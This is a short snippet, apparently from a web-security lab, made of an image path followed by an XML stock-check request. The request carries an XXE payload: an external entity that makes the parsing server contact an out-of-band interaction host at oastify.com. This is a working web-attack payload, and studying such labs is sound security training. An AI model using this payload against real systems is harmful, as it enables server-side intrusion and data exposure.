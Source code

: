 <?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://233guyoahhhzo6bd08sbid3pqgw7k28r.oastify.com"> ]>
<stockCheck><productId>&xxe;</productId><storeId>3</storeId></stockCheck>